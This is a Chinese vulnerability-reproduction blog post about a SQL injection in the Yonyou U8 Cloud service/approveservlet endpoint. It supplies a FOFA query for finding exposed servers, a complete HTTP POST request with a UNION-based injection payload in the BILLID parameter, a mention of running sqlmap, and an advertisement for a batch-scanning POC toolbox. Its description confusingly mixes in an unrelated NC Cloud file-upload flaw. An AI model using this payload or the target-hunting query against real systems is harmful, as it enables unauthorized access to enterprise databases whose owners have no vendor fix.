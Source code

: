 #  用友-U8-Cloud service/approveservlet接口存在SQL注入漏洞 附POC   
2024-11-11更新  南风漏洞复现文库   2024-11-11 22:01  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友-U8-Cloud 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
NC Cloud是用友推出的大型企业数字化平台。 用友网络科技股份有限公司NC Cloud存在任意文件上传漏洞，攻击者可利用该漏洞获取服务器控制权。用友-U8-Cloud service/approveservlet接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDFN3DJia8RD6K2x8oZdLcRrCDsbo9EOxmYuZGo0KtD99smYDNtyH776Q/640?wx_fmt=png&from=appmsg "null")  
  
用友-U8-Cloud service/approveservlet接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="/api/uclient/public/"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/service/approveservlet  
  
漏洞数据包：  
```
POST /service/approveservlet HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 654
Content-Type: application/x-www-form-urlencoded

BILLID=1'%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@VERSION,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20WPWZ&BILLTYPE=4331&USERID=3&RESULT=4&DATASOURCE=U8cloud
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDkCD0yePicnvTHjRjNQnNMGuAMhdV7Qq2tOoswfSiaE3TAhQNGclPdCwA/640?wx_fmt=jpeg&from=appmsg "null")  
  
跑sqlmap  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDF2uCtdaWUqhAlWPu73zz8gfVyb0JqPNVRerwCwY3bJlppGU7f647tw/640?wx_fmt=png&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDBAoqUgsupIjQTlZxVoOYZ57C5lY32gfqq1S010kMfdCxgu0xM6FT0g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDBI6EQmawia7mUISDGAzjibI63Cic6Y4DCiaoEf30ldqn1HedU98xRViavBQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDkRxdpTXuicJHCIYT8EklM6icqLda6mpicY63SgVvVIyibMHw2y87eibz0Sg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDjpX49bEEib39NO2GDy0XoaHBDaRErKfPncrdPuJhqVUDa0icIOjauErQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDhjATwQK0AbcmpBzmodr0EcllGNgf8uPbfibfy0QQj7nHhmW4SNK0nrg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byNicDyQQIweUFgJEby0jDDic6Gl4qIAvSqLe8w8SiaqmOUCnA1yVT0PKbZxEh5DMzrty3Bib5WNAAQw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
  
[苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487736&idx=1&sn=4865fc23b95914c8edf9a3f840699298&chksm=974b9dffa03c14e9dd6a87bd098a3462d4b0f201de69d6a2cbf2eaf621c301577746ce57a7ff&scene=21#wechat_redirect)  
  
  
[WordPress Time Clock插件存在远程代码执行漏洞CVE-2024-9593 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487724&idx=1&sn=bc4ff16c25b5f725c98a97a4467bfe2f&chksm=974b9deba03c14fdf3b8211c78d4d6a2b68e420ccbdd16d2a10c9988fc9381d40bc9b683ed0d&scene=21#wechat_redirect)  
  
  
